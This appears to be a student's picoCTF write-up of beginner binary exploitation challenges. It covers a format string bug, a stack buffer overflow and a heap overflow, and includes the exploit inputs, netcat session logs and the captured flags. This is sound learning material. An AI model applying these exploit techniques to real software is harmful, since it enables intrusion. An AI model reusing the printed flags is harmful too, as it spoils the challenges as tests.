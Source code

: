# Binary Exploitation - Mandatory Challenges

## format string 0

**Approach: Brute Force**

Initially, I tried to brute force the challenge and was successful. I found the flag quickly and easily and then analyzed the given code afterwards.

The brute-force method allowed me to navigate through the challenge effectively. By testing the inputs given in the program, I successfully retrieved the flag. 
 
For `Patrick`, I started with the burger names from the menu. I noticed that the system accepted the input `Gr%114d_Cheese`, which triggered a format string vulnerability.

For `Sponge Bob`, the second customer, I continued with the same method, testing all the provided burger names, the input `Cla%sic_Che%s%steak` was accepted, which also exhibited format string behavior.
Thus, I received the flag.

**Knowledge Gained:**

Format Strings- Learnt how format strings can be used to manipulate the output. The %s and other format specifiers can be exploited to read from the stack.

```
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Breakf@st_Burger
Breakf@st_BurgerPatrick is still hungry!
Try to serve him something of larger size!
^Z
[1]+  Stopped                 nc mimas.picoctf.net 52258
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Pe%to_Portobello
Pe20021560_Portobello
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: $outhwest_Burger
$outhwest_Burger
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}

```

**Flag:**

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```

**Resources Used:**

https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/


## buffer overflow 0

**Approach: Exploit a simple buffer overflow vulnerability**

We need to overflow a buffer in order to trigger a segmentation fault (SIGSEGV) and get the flag.

**Vulnerability:**

strcpy function:

```
void vuln(char *input){
    char buf2[16];
    strcpy(buf2, input);
}
```

`strcpy` is used here to copy `input` into `buf2`, which has a fixed size of 16 characters. If `input` exceeds 16 characters, it will cause a buffer overflow. `input` ,i.e , `buf1` has a max size of 100 bytes/characters.

Signal Handler for SIGSEGV:

```
void sigsegv_handler(int sig) {
    printf("%s\n", flag);
    fflush(stdout);
    exit(1);
}
```

If a segmentation fault occurs (e.g., due to a buffer overflow), this handler will execute, printing the flag.

**Approach:**

Overflow `buf2` in `vuln` function by passing in more than 16 characters, causing a segmentation fault and thereby triggering the `sigsegv_handler` function, which will print the flag.

It should have worked with 17, 18 or 19 characters since we only needed more than 16 characters to trigger a buffer overflow, but it didn't get triggered. It finally overflowed when I inputted 20 or more characters. Upon researching the cause for this, I found out that this behaviour might be due to some kind of "extra buffer"/padding or memory alignment.

```
root@DhruvsPC:~# nc saturn.picoctf.net 59644
Input: 1234567890123456789
The program will exit now
^Z
[1]+  Stopped                 nc saturn.picoctf.net 59644
root@DhruvsPC:~# nc saturn.picoctf.net 59644
Input: 12345678901234567890
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

**Flag:**

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

# Binary Exploitation - Extra Challenges

## heap 0

**Approach: Exploit heap overflow vulnerability**

We need to modify `safe_var` to a value other than `"bico"` so that the `check_win()` function will print the flag.

Since both `input_data` and `safe_var` are allocated close to each other on the heap, if we overflow `input_data`, it will spill over into `safe_var`, allowing us to modify its contents.

```
Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x62ca8e36f2b0  ->   pico
+-------------+----------------+
[*]   0x62ca8e36f2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: 1234567890123456789012345678901234567890

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x62ca8e36f2b0  ->   1234567890123456789012345678901234567890
+-------------+----------------+
[*]   0x62ca8e36f2d0  ->   34567890
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{my_first_heap_overflow_4fa6dd49}

```

**Flag:**

```
picoCTF{my_first_heap_overflow_4fa6dd49}
```
